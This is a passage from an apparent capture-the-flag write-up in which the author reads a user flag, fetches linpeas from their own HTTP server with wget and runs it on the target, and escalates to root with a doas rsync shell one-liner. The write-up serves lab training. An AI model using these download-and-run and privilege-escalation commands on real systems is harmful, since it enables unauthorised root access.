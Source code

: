 ## User Flag

Now that we have switched to user `kiran`, we can go ahead and read the user flag in kiran's home directory:

~~~
kiran@ubuntu-xenial:/var/backups$ cd
kiran@ubuntu-xenial:~$ cat user.txt
6b18f161b4de63b5f72577c737b7ebc8
~~~

User flag: `6b18f161b4de63b5f72577c737b7ebc8`

## Going Root

Now in order to obtain the root flag, we need to gain root access. First I ran `sudo -l` to check my sudo permissions:

~~~
kiran@ubuntu-xenial:~$ sudo -l
[sudo] password for kiran: trythispasswordforuserkiran
Sorry, user kiran may not run sudo on ubuntu-xenial.
~~~

As you can see, we have none. I decided to upload `linpeas` on the target machine to speedup the enumeration process. To do so, first save [linpeas](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh) in a file. Then we need to start a http server, where the script is located.

On your machine:

~~~
└─$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
~~~

On the target machine, we downlaod the file, mark it as executable and then run it:

~~~
kiran@ubuntu-xenial:~$ wget http://<YOUR IP>:8000/linpeas.sh
kiran@ubuntu-xenial:~$ chmod +x linpeas.sh
kiran@ubuntu-xenial:~$ ./linpeas.sh -a
~~~

I started looking through the output and found this:

~~~
╔══════════╣ Checking doas.conf
 permit nopass kiran as root cmd rsync
~~~

As you can see, we have permissin to run `rsync` with `doas` as `root`. Doas is a utility that allows a user account to run a command as another user account. It basicly works like sudo for us.

I searched [GTFOBins](https://gtfobins.github.io/) for `rsync` command and found a command that can gain us root access:

~~~bash
$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
~~~
